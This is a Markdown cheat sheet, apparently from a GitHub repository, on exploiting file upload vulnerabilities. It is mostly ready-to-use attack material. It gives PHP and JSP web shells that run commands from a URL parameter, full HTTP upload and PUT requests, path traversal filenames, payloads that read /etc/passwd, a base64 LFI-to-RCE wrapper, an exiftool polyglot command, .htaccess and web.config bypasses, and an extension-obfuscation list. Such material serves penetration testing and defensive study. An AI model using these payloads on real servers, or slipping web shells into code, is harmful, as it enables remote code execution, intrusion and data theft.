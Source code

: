 # **File Upload Vulnerability**

## **Index**

1. [PHP Web Shell Upload](#1-php-web-shell-upload)  
2. [Image Upload with Embedded PHP Code](#2-image-upload-with-embedded-php-code)  
3. [Bypassing Content-Type Validation](#3-bypassing-content-type-validation)
4. [Uploading Files via Path Traversal Vulnerability](#4-uploading-files-via-path-traversal-vulnerability)  
5. [Uploading Files Using PUT](#uploading-files-using-put)
7. [PHP Payloads for RCE](#php-payloads-for-rce)  
   - [Normal Payloads](#normal-payloads)  
   - [Exploiting Server Configuration](#exploiting-server-configuration)  
     - [Apache Bypass](#apache-bypass)  
     - [IIS Bypass](#iis-bypass)  
   - [Obfuscating File Extensions](#obfuscating-file-extensions)
---
### **1. PHP Web Shell Upload**

Uploading a simple PHP script as a file to get remote code execution.

**Malicious File Content (`shell.php`):**
```php
<?php echo shell_exec($_GET['cmd']); ?>
```

**Example HTTP Request:**
```http
POST /upload HTTP/1.1
Host: vulnerable-website.com
Content-Type: multipart/form-data; boundary=---------------------------12345
Content-Length: 221

-----------------------------12345
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: application/x-php

<?php echo shell_exec($_GET['cmd']); ?>
-----------------------------12345--
```

In this example, the attacker uploads a file named `shell.php` that contains a PHP web shell. If the server stores the file in a web-accessible location, the attacker can execute commands by accessing `http://vulnerable-website.com/uploads/shell.php?cmd=ls`.

---

### **2. Image Upload with Embedded PHP Code**

Uploading an image file that contains embedded PHP code with a manipulated file extension.

**Malicious File Content (`image.php.jpg`):**
```php
<?php system($_GET['cmd']); ?>
```

**Example HTTP Request:**
```http
POST /upload HTTP/1.1
Host: vulnerable-website.com
Content-Type: multipart/form-data; boundary=---------------------------98765
Content-Length: 245

-----------------------------98765
Content-Disposition: form-data; name="file"; filename="image.php.jpg"
Content-Type: image/jpeg

<?php system($_GET['cmd']); ?>
-----------------------------98765--
```

The attacker uploads a file named `image.php.jpg`. If the server incorrectly identifies the file based on its extension rather than content, the attacker may execute commands by navigating to the uploaded file's URL.

---

### **3. Bypassing Content-Type Validation**

Some web applications check the `Content-Type` header to validate the file type. The attacker can manipulate the header to bypass this check.

**Malicious File Content (`shell.jsp`):**
```jsp
<% out.println("Command execution: " + Runtime.getRuntime().exec(request.getParameter("cmd"))); %>
```

**Example HTTP Request:**
```http
POST /upload HTTP/1.1
Host: vulnerable-website.com
Content-Type: multipart/form-data; boundary=---------------------------54321
Content-Length: 256

-----------------------------54321
Content-Disposition: form-data; name="file"; filename="shell.jsp"
Content-Type: image/jpeg

<% out.println("Command execution: " + Runtime.getRuntime().exec(request.getParameter("cmd"))); %>
-----------------------------54321--
```

Here, the attacker uploads a JSP file disguised with a `Content-Type` of `image/jpeg`, hoping that the server only checks the header and not the actual content of the file.

---

### **4. Uploading Files via Path Traversal Vulnerability**

In some cases, you can exploit file upload vulnerability via path traversal:  
- `filename="../exploit.php"`  
- URL encoding: `filename="..%2fexploit.php"`

---

## **Uploading Files Using PUT**

```text
PUT /images/exploit.php HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-httpd-php
Content-Length: 49

<?php echo file_get_contents('/path/to/file'); ?>
```

## **PHP Payloads for RCE**

### **Normal Payloads**
```php
<?php echo file_get_contents('/etc/passwd'); ?> // To read files
<?php system($_GET['cmd']); ?> // For system command
<?php passthru($_GET['cyborg71']); ?> // For system command*
php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+&cmd=ls // LFI to RCE
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" hacker.jpg -o polyglot.php
```

---

### **Exploiting Server Configuration**

#### **Apache Bypass**
```text
Step 1 >>
filename=".htaccess"
Content-Type: text/plain
AddType application/x-httpd-php .shell

Step 2 >>
filename="test.shell"
Content-Type: application/x-httpd-php
<?php system($_GET['cmd']); ?>
```

#### **IIS Bypass**
```text
Step 1 >>
filename="web.config"
Content-Type: text/plain
<configuration>
    <system.webServer>
        <staticContent>
            <mimeMap fileExtension=".php" mimeType="application/x-httpd-php" />
        </staticContent>
    </system.webServer>
</configuration>

Step 2 >>
Content-Type: application/x-httpd-php
<?php system($_GET['cmd']); ?>
```

---

### **Obfuscating File Extensions**
```text
.php
.php3
.php4
.php5
.pHp
.shtml
.php.jpg
.php.png
%2Ephp
.php;.jpg
.php;.png  
.php%00.jpg
.php%00.png
.p.phphp
```
---


